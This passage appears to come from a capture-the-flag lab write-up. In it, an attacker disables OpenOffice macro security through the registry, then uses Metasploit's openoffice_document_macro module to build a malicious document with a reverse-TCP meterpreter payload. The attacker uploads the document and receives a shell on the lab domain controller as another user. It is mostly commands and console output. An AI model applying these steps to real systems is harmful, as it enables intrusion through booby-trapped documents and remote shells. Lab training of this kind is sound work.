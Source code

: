 So we are able to update the `MacroSecurityLevel` key.

```console
(remote) tstark@DC:C:\$ Set-ItemProperty -Path "$key\MacroSecurityLevel" -Name "Value" -Value 0
```

We can now create a document with a malicious macro with MetaSploit.

```console
msf6 > use exploit/multi/misc/openoffice_document_macro
msf6 exploit(multi/misc/openoffice_document_macro) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST 10.10.14.7
msf6 exploit(multi/misc/openoffice_document_macro) > run
[*] Started reverse TCP handler on 10.10.14.7:4444
[*] Using URL: http://10.10.14.7:8080/PvPe6N5kOKQ
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /opt/metasploit/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/s3rp3nt/.msf4/local/msf.odt
```

Next we upload the generated file to the server and wait for the macro to get executed. This may take a minute or two.

```console
[*] 10.10.11.3       openoffice_document_macro - Sending payload
[*] Sending stage (201798 bytes) to 10.10.11.3
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.11.3:64661) at 2024-07-16 15:02:50 +0200
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type                     Information         Connection
  --  ----  ----                     -----------         ----------
  1         meterpreter x64/windows  OFFICE\ppotts @ DC  10.10.14.7:4444 -> 10.10.11.3:64661 (10.10.11.3)

msf6 exploit(multi/misc/openoffice_document_macro) > sessions 1
meterpreter > getuid
Server username: OFFICE\ppotts
```
